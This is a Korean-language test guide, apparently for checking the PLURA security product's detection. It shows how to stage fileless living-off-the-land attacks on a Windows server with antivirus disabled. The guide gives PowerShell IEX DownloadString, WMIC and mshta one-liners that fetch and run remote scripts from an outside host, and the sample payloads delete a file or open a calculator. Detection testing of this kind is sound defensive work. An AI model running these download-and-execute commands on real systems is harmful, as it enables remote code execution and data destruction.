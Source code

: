 # 테스트 환경 구축

1. **공격 서버**
   - 웹 서버가 구축되어 있어야 합니다.
   
2. **MALSCRIPT**
   - 공격 서버의 웹루트 디렉터리 내에 위치해야 합니다. (`/var/www/html/`)
   - 침투한 파일은 웹 요청 본문으로 전달하여 웹셸(Web Shell)로 바꿀 수 있습니다.

3. **MALSCRIPT 공격문의 경로**
   - 피해 서버에서 삭제할 파일의 경로를 입력해야 합니다.

4. **피해 서버**
   - PLURA 에이전트가 설치되어 있어야 합니다.
   - 삭제할 파일 (`C:\Program Files\important-file.txt`)이 존재해야 합니다.
   - ※ 해당 경로에 파일이 존재하지 않을 경우, 공격 성공 여부를 확인할 수 없습니다.

5. **운영 환경**
   - 피해 서버는 Windows 서버로 구성해야 합니다.
   - Windows 실시간 보호 및 V3와 같은 백신 프로그램은 중지해야 합니다.

6. **명령 실행**
   - 피해 서버에서 `cmd` 또는 `PowerShell`을 관리자 권한으로 실행하여 명령문을 수행합니다.

---

# LOL 공격 및 파일리스 공격이란

### LOL (Living Off the Land) 공격
- 시스템에 설치된 합법적인 바이너리, DLL 등의 도구를 이용하여 공격하는 방식.

### 파일리스(Fileless) 공격
- 공격 파일이 피해 서버의 디스크에 저장되지 않고, 메모리에서 직접 실행되는 공격 기법.

다음은 LOL을 활용한 파일리스 공격 방법입니다. 해당 공격 수행 후 PLURA에서 탐지 내역을 확인할 수 있습니다.

---

# 공격 시연 방법

## PowerShell (T1059.001)
- **PowerShell을 사용하여 파일리스 공격 수행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')"
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Windows Management Instrumentation (T1047)
- **WMIC를 사용하여 원격 명령 실행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`에서 수행:
```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')\""
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Mshta (T1218.005)
- **Mshta를 사용하여 악성 HTA 파일 실행**
- **스크립트:** `MALSCRIPT.hta`

```html
<html>
<head>
    <title>Malicious HTA</title>
    <hta:application id="oHTA"
        border="thin"
        borderstyle="normal"
        caption="yes"
        contextmenu="no"
        innerborder="no"
        maximizebutton="no"
        minimizebutton="no"
        navigable="yes"
        scroll="no"
        scrollflat="no"
        selection="yes"
        showintaskbar="yes"
        singleinstance="yes"
        sysmenu="yes"
        version="1.0"
        windowstate="normal">
    </hta:application>
    <script language="JScript">
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("calc.exe");
    </script>
</head>
<body>
    <h1>Malicious HTA</h1>
</body>
</html>
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```cmd
mshta http://ethanlabs.shop/MALSCRIPT.hta
```

- **공격 성공 시:** 피해 서버에서 "Malicious HTA" 창과 계산기가 실행되며, PLURA에서 탐지 내역 확인 가능.

---

# 주의사항
- **PowerShell, WMIC, Mshta**는 Windows 내 강력한 스크립트 실행 도구로 파일리스 공격을 수행하는 데 자주 사용됩니다.
- 공격자는 디스크에 파일을 저장하지 않고 메모리 내에서 바로 실행하여 탐지 회피를 시도합니다.
- 위 과정을 통해 PLURA의 탐지 기능과 보안 로그를 확인하세요.

---

# 공격 개요 (Mermaid Diagram)

```mermaid
graph TD
    A[공격 서버] -->|MALSCRIPT 전달| B[피해 서버]
    B -->|PowerShell 실행| C[파일 삭제 수행]
    B -->|WMIC 실행| D[명령 수행]
    B -->|Mshta 실행| E[HTA 파일 실행]
    C -->|결과 확인| F[PLURA 탐지 내역]
    D -->|결과 확인| F[PLURA 탐지 내역]
    E -->|결과 확인| F[PLURA 탐지 내역]
```
